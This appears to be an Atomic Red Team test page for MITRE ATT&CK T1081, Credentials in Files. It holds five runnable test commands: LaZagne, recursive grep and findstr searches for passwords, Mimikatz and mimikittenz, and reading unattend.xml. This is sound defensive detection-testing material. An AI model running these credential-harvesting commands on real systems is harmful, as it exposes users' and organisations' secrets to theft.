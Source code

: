 # T1081 - Credentials in Files
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1081)
<blockquote>Adversaries may search local file systems and remote file shares for files containing passwords. These can be files created by users to store their own credentials, shared credential stores for a group of individuals, configuration files containing passwords for a system or service, or source code/binary files containing embedded passwords.

It is possible to extract passwords from backups or saved virtual machines through [Credential Dumping](https://attack.mitre.org/techniques/T1003). (Citation: CG 2014) Passwords may also be obtained from Group Policy Preferences stored on the Windows Domain Controller. (Citation: SRD GPP)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Browser and System credentials with LaZagne](#atomic-test-1---extract-browser-and-system-credentials-with-lazagne)

- [Atomic Test #2 - Extract passwords with grep](#atomic-test-2---extract-passwords-with-grep)

- [Atomic Test #3 - Runs Mimikatz & Mimikittenz by name](#atomic-test-3---runs-mimikatz--mimikittenz-by-name)

- [Atomic Test #4 - Extracting passwords with findstr](#atomic-test-4---extracting-passwords-with-findstr)

- [Atomic Test #5 - Access "unattend.xml"](#atomic-test-5---access-unattendxml)


<br/>

## Atomic Test #1 - Extract Browser and System credentials with LaZagne
[LaZagne Source](https://github.com/AlessandroZ/LaZagne)

**Supported Platforms:** macOS


#### Run it with `sh`! 
```
python2 laZagne.py all
```



<br/>
<br/>

## Atomic Test #2 - Extract passwords with grep
Extracting credentials from files

**Supported Platforms:** macOS, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to search | String | /|

#### Run it with `sh`! 
```
grep -ri password #{file_path}
```



<br/>
<br/>

## Atomic Test #3 - Runs Mimikatz & Mimikittenz by name
Mimikatz/kittenz - This will require a Mimikatz executable or invoke-mimikittenz ps module.

**Supported Platforms:** Windows


#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
invoke-mimikittenz
mimikatz.exe
```



<br/>
<br/>

## Atomic Test #4 - Extracting passwords with findstr
Extracting Credentials from Files

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
findstr /si pass *.xml | *.doc | *.txt | *.xls
ls -R | select-string -Pattern password
```



<br/>
<br/>

## Atomic Test #5 - Access "unattend.xml"
Attempts to access unattend.xml, where credentials are commonly stored, within the Panther directory where installation logs are stored.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
cmd /c type C:\Windows\Panther\unattend.xml > nul 2>&1
cmd /c type C:\Windows\Panther\Unattend\unattend.xml > nul 2>&1
```



<br/>
